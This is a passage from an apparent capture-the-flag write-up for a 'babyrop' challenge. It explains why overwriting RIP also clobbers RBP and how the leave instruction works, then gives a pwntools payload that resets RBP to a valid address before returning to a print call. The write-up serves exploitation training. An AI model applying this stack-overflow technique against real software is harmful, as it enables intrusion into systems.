 #### Remembering basics

The problem is that when we overwrite RIP, we also overwrite the RBP register.



![[Pasted image 20250716080336](assets/images/SmileyCTF-babyrop/Pasted%20image%2020250716080336.png)

The RBP register is located 8 bytes before the RIP register.
The leave instruction performs two operations: `Set RSP to RBP, then pop RBP`

```python
mov rsp, rbp
pop rbp
```

Since overwriting the RBP register with an invalid value prevents correct address referencing, we must set the RBP register to a valid value.



![Pasted image 20250716080308](assets/images/SmileyCTF-babyrop/Pasted%20image%2020250716080308.png)



To do this, update the payload with print_addr+0x20. This ensures that the RBP register is correctly set.

The updated payload:

```python
print_addr = 0x404010
print_call = 0x401211

payload = flat({
    0: [
        print_addr
        ],
    32:[
        print_addr+0x20,
        print_call
      ]
    })

io.sendline(payload)
```

